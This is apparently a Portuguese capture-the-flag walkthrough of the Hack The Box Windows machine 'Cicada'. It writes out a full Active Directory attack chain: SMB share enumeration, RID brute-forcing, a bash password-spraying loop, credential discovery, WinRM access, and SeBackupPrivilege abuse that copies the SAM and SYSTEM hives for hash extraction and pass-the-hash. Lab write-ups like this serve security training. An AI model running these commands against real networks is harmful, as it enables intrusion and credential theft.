 # Cicada

## Resumo

Essa é uma máquina Windows classificada de dificuldade fácil que envolve a exploração básica de um Active Directory. De início, foi necessário identificar o serviço SMB em execução, e então obter uma pasta compartilhada disponível publicamente que continha uma senha. Após isso, foi necessário enumerar usuários por meio de RID brute-force e então realizar um ataque de password spraying para obter credenciais válidas. Com isso, foi possível utilizar o `ldapdomaindump` para extrair informações sobre o Active Directory, possibilitando encontrar outras credenciais válidas. A partir dessas credenciais, foi possível listar outra pasta compartilhada no SMB, dessa vez com as credenciais do usuário `emily.oscars`, o qual permitia acesso via `WinRM`, possibilitando acesso remoto e encontrar a primeira flag. Para escalar privilégio, foi possível explorar o privilégio `SeBackupPrivilege` do usuário autenticado para extrair o hash do usuário administrador do sistema.

## Reconhecimento

Realizei uma varredura de portas TCP com o `nmap` para identificar os serviços em execução, o que possibilitou encontrar as seguintes portas respondendo:

```bash
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-01-07 17:13:33Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
62741/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

Analisando a resposta, esses são serviços comuns de se encontrar em um servidor Windows e estão relacionados ao Active Directory. Dentre os serviços disponíveis, as portas 139 e 445 indicam a presença de um servidor SMB. Acessando como usuário convidado (`guest`), os seguintes compartilhamentos são listados:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadasmbmap.png" alt=""><figcaption><p>HTB Cicada - SMBMap</p></figcaption></figure>

Perceba que o usuário convidado tem permissão de leitura à pasta compartilhada `HR`. Listando o conteúdo compartilhado, é possível encontrar um arquivo `Notice from HR.txt`:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadasensitive-file.png" alt=""><figcaption><p>HTB Cicada - Arquivo sensível encontrado</p></figcaption></figure>

É possível baixar esse arquivo com o seguinte comando:

```bash
smbmap -u 'guest' -p '' -H 10.10.11.35 -s 'HR' --download 'HR/Notice from HR.txt'
```

Listando o conteúdo do arquivo, é possível encontrar a seguinte mensagem informando a senha padrão de um usuário não identificado:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadashared-password.png" alt=""><figcaption><p>HTB Cicada - Senha encontrada em arquivo compartilhado</p></figcaption></figure>

Com a senha de um usuário ainda não identificado, foi necessário varrer o Active Directory em busca de possíveis usuários para tentar combinar com a senha. Utilizando o `crackmapexec` por meio do seguinte comando:

```bash
crackmapexec smb 10.10.11.35 -d cicada.htb -u 'guest' -p '' --rid-brute
```

Foi possível obter os seguintes resultados:

```bash
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
<...SNIP>
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

## Exploração

### Usuário michael.wrightson

Com uma lista de usuários, agora basta realizar um ataque de [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack) em busca de uma combinação de usuário e senha válidos. Desenvolvi um breve script em BASH para automatizar essa tarefa, utilizando os usuários obtidos e o `crackmapexec` para validar as credenciais:

```bash
USERS=$(grep 'CICADA\\' crackmapexec/rid-brute | awk '{print $6}' | cut -d '\' -f 2 | sort -u)
for user in ${USERS}; do
  crackmapexec smb 10.10.11.35 -u "${user}" -p 'Cicada$M6Corpb*@Lp#nZp!8' | grep '[+]' 2> /dev/null | tee crackmapexec/password-spray;
done
```

Mesmo filtrando apenas os resultados válidos, o script retornou diversos falsos positivos:

```bash
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Allowed:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Cert:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Cloneable:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Denied:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Dev:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\DnsAdmins:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\DnsUpdateProxy:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Domain:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Enterprise:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Group:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Groups:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Key:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Protected:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Read-only:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Schema:Cicada$M6Corpb*@Lp#nZp!8 
```

Observe que dentre os resultados obtidos, o usuário `michael.wrightson` se destaca por ser dentre os únicos da lista que foi adicionado por um administrador, não sendo um usuário padrão. Por conta disso, utilizei ele para tentar fazer login em outros serviços (nesse caso, o LDAP) e tive sucesso.&#x20;

### Usuário david.orelious

Utilizando a ferramenta `ldapdomaindump`, obtive os seguintes resultados:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadaldapdomaindump.png" alt=""><figcaption><p>HTB Cicada - ldapdomaindump</p></figcaption></figure>

Analisando o resultado do arquivo `domain_users.json`, é possível encontrar a senha do usuário david.orelious:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption><p>HTB Cicada - Senha do usuário David</p></figcaption></figure>

### Usuário emily.oscars

Novamente utilizando o SMBMap, mas dessa vez com as credenciais do usuário David, é possível identificar uma permissão de leitura da pasta compartilhada `DEV`.

<figure><img src="../../../.gitbook/assets/ctfhtbcicadadev-share.png" alt=""><figcaption><p>HTB Cicada - Pasta compartilhada DEV</p></figcaption></figure>

Nela, está contido um script PowerShell com o seguinte conteúdo:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "<REDACTED>" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Com as credenciais do usuário `emily.oscars`, é possível se autenticar remotamente por meio do protocolo `WinRM`. Utilizando a ferramenta `evil-winrm`, acessei a máquina e obtive a flag de usuário:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadawinrm.png" alt=""><figcaption><p>HTB Cicada - acesso remoto via WinRM</p></figcaption></figure>

## Escalação de Privilégios

Listando as informações sobre o usuário `emily.oscars` por meio do comando `whoami /all`, é possível encontrar os seguintes privilégios:

```powershell
Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled <
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

É possível escalar privilégio utilizando a permissão [SeBackupPrivilege](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html#local-attack). Utilizando os seguintes comandos, é possível criar um diretório `C:\Temp` e copiar os arquivos `SAM` e `SYSTEM` utilizando o `robocopy`:

```
mkdir C:\Temp
robocopy /b C:\Windows\System32\Config C:\Temp SAM
robocopy /b C:\Windows\System32\Config C:\Temp SYSTEM
```

Com isso, é possível baixar os arquivos na máquina local por meio do comando `download` do `evil-winrm`, e extrair os hashes por meio do `secretsdump.py`, script disponível por meio do `ImPacket`.

<figure><img src="../../../.gitbook/assets/ctfhtbcicadasecretsdump.png" alt=""><figcaption><p>HTB Cicada - Hashes do secretsdump.py</p></figcaption></figure>

Por fim, basta se autenticar por meio do `evil-winrm` como usuário administrador utilizando a técnica de [Pass The Hash](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/).

<figure><img src="../../../.gitbook/assets/ctfhtbcicadapth.png" alt=""><figcaption><p>HTB Cicada - Pass The Hash do usuário Administrator</p></figcaption></figure>
